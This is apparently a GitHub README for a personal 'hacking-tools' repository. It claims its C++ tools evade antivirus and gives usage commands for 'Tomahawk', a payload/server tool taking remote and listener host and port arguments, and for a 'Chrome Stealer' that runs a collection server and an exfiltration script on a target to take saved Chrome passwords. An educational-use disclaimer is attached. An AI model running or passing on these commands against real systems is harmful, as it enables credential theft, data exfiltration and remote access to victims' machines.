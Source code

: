 # hacking-tools
Designing cyber security tools for myself and learning along the way
> Alot of the tools *.cpp tools here will not be picked up by AV solutions merely because of their simplicity. They are not to be used for real world applications. I don't consent to use of these tools for malicious intent, merely for educational purposes.

# Usage
> Download
```bash
git clone https://github.com/Frankfx9/hacking-tools.git
cd hacking-tools.git
```
> Tomahawk
```bash
chmod +x tomahawk.py
./tomahawk.py [server or payload] --rhost IP --lport PORT --lhost IP
```
> Chrome Stealer
```bash
cd chrome-tools/chrome/
python3 server.py
```
On the target system
```bash
python3 exfil_chrome_passwords.py
```
